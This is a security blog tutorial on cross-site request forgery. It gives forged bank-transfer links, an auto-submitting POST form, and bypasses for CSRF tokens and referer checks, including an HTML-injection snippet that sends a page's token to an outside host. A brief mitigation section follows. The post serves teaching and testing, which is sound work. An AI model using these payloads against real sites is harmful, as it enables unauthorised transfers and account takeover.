 ```yaml
---
layout: post
title:  "CSRF Attacks - How to Find, Exploit and fix them"
author: snapsec
categories: [ cybersecurity,csrf,web-attacks ]
image: assets/images/csrf-101.png
---
```




Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application. 

### CSRF flaw and its exploitation

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim’s behalf (though note that this is not true of login CSRF, a special form of the attack let me describe it ). For most sites, browser requests automatically include any credentials associated with the site, such as the user’s session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim. CSRF attacks target functionality that causes a state change on the server, such as changing the victim’s email address or password, or purchasing something. 


### CSRF Attack Example:

Before executing an assault, a perpetrator typically studies an application in order to make a forged request appear as legitimate as possible. 
For example, a typical GET request for a $100 bank transfer might look like:
```
GET http://netbank.com/transfer.do?acct=PersonB&amount=$100 HTTP/1.1
```
An attacker can modify this script so it results in a $100 transfer to their own account. Now the malicious link look like:
```
GET http://netbank.com/transfer.do?acct=AttackerA&amount=$100 HTTP/1.1
```
A bad actor can embed the request into an innocent looking hyperlink:
```
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=$100">Read more!</a>
```
Next the attacker can distribute the hyperlink via email to a large number of bank customers. Those who click on the link while logged into their bank account will unintentionally initiate the $100 transfer.
 Note that if the bank’s website is only using POST requests, it’s impossible to frame malicious requests using a  href tag. However, the attack could be delivered in a form tag with automatic execution of the embedded JavaScript. 
 his is how such a form may look like:
 ```
  <body onload="document.forms[0].submit()">
   <form action="http://netbank.com/transfer.do" method="POST">
     <input type="hidden" name="acct" value="AttackerA"/>
     <input type="hidden" name="amount" value="$100"/>
     <input type="submit" value="View my pictures!"/>
   </form>
 </body>
 ```

##  Bypasses for CSRF attack:

#### Change the request method

Another thing worth trying is changing the request method of the request. If the sensitive request that you would like to forge is sent via the POST method, try converting the request to a GET request. And if the action is done via a GET, try converting it into a POST. The application might still execute the action and the same protection mechanism is often not in place.
For example, this request:
```
POST /change_password
POST body:
new_password=qwerty
```
Can be rewritten as:
```
GET /change_password?new_password=qwerty
```
#### CSRF Protection via Tokens

Just because a site is using CSRF tokens does not mean that it is validating them properly. Here are a few things that you can try to bypass CSRF protection via tokens.

#### Delete the token param or send a blank token

Not sending a token works fairly often because of this common application logic mistake: applications sometimes only check the validity of the token if the token exists, or if the token parameter is not blank. In this case, sending a request without the token, or a blank value as the token may be all you need to bypass the protection.
For example, if a legitimate request looks like this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```

Try this:

```
POST /change_password
POST body:
new_password=qwerty
```

Or, this:

```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=
```


#### Use another session’s CSRF token

The application might only be checking if the token is _valid_ or not, and not checking if it _belongs to the current user_. If that’s the case, you can simply hard code your own CSRF token into the payload. Let’s say the victim’s token is _871caef0757a4ac9691aceb9aad8b65b_, and yours is YOUR_TOKEN. You can obtain your own CSRF token easily but not the victim’s token. Try to bypass the CSRF protection by providing your own token in the place of the legitimate token.
In other words, instead of sending this:

```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```


Send this:

```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=YOUR_TOKEN
```


## Referer Based CSRF Checks
Let’s say that _attacker.com_ is a domain that you own. And _bank.com_ is the site that you are attacking. The site is not using CSRF tokens but is checking the referer header instead. What can you do now?

- Sending a blank tokens is one of the first things that you should do, sometimes all you need to do to bypass a referer check is to simply not send a referer. To do this, you can add the following meta tag to the page hosting your payload:

```
<meta name=”referrer” content=”no-referrer”>
```

The application might only be validating the referer if one is sent, in that case, you’ve successfully bypassed its CSRF protection!




#### Bypass the regex
If the referer check is based on a whitelist, you can try bypassing the regex used to validate the URL. For example, you can try placing victim domain name in referer URL as a subdomain or as a directory:
If the site is looking for “_bank.com”_ in the referer URL, maybe “_bank.com.attacker.com”_ or “_attacker.com/bank.com”_ will work.


#### Extracting token via HTML injection

This technique utilizes HTML injection vulnerability using which an attacker can plant a logger to extract the CSRF token from that web page and use that token. An attacker can plant a link such as
```
<form action=”http://shahmeeramir.com/acquire_token.php”></textarea>
```
#### Decoding CSRF tokens:

Another method to bypass CSRF is to identify the algorithm of the CSRF token. In my experience CSRF tokens are either MD5 or Base64 encoded values. You can decode that value and encode the next one in that algorithm and use that token. For instance “a0a080f42e6f13b3a2df133f073095dd” is MD5(122). You can similarly encrypt the next value MD5(123) to for CSRF token bypass.


### Mitigation of CSRF attack

A number of effective methods exist for both prevention and mitigation of CSRF attacks. From a user’s perspective, prevention is a matter of safeguarding login credentials and denying unauthorised actors access to applications. The most robust way to defend against CSRF attacks is to include a CSRF token within relevant requests. The token should be:
-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.


## Conclusion:

CSRF is a vulnerability that allows attackers to circumvent the SOP (same origin policy) which leas to various unintended actions on victims account.

There are various bypasses to bypass the csrf protection implemented by the web applications as below:

- Sending only csrf token  header with empty token.

- Use csrf token generated in another session.

- Try submitting same length randomly generated csrf token to check if it validation is only based on token length.
